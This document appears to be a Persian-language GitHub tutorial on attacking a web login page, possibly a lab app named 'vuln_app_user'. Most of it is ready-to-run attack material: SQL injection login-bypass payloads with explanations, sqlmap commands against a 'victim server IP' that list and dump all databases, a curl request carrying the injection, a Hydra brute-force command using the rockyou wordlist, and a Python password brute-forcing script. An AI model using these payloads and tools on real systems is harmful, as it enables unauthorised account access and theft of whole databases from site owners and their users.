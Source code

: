 ```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# sqlmap

1. نصب sqlmap (اگر وجود ندارد):
```
sudo apt update && sudo apt install sqlmap
```

2. اجرای حمله به صفحه لاگین:

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

--data: پارامترهای POST ارسالی.
--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.

برای حمله پیشرفته‌تر:

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all

# curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# Brute Force

۱. با ابزارهای خودکار (مثل Hydra یا Burp Intruder)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

-l admin: نام کاربری هدف.
-P rockyou.txt: لیست پسوردهای معروف.
http-post-form: نوع حمله (POST).
F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).

2.  با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)


```
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
